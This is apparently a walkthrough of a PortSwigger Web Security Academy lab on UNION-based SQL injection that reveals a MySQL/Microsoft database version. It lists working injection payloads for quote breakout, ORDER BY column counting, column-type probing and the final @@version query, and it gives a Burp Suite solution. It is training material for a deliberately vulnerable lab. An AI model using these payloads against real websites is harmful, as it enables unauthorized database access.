






# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

[Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a `UNION` attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Make the database retrieve the string: '8.0.27'


# Common Attack Payload

## Single Quote

```sql
'--
```



## Double Quote

```sql
"--
```



# Identify the Number of Columns

```sql
"ORDER BY 1--
"ORDER BY 2--
"ORDER BY 3--
```



## Space after `--`

```sql
'ORDER BY 2-- 
'ORDER+BY+2--+
```



# Identify Column Data Types

```sql
'UNION+SELECT+'a',+'a'--+
'UNION+SELECT+NULL,+'a'--+
'UNION+SELECT+'a',+NULL--+
```



<aside>
💡 Both of them are String data type

</aside>

# Retrieve Database Version

```sql
'UNION+SELECT+NULL,+@@version--+
SELECT @@version
```



# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+'abc','def'#`
3. Use the following payload to display the database version: `'+UNION+SELECT+@@version,+NULL#`

## Community Solutions

Rana Khalil

[SQL Injection - Lab #8 SQLi attack, querying the database type and version on MySQL & Microsoft](https://youtu.be/MFTk_LNRW0g)

Michael Sommer

[SQL injection attack, querying the database type and version on MySQL ... (Video solution, Audio)](https://youtu.be/7afmKPDaZtw)

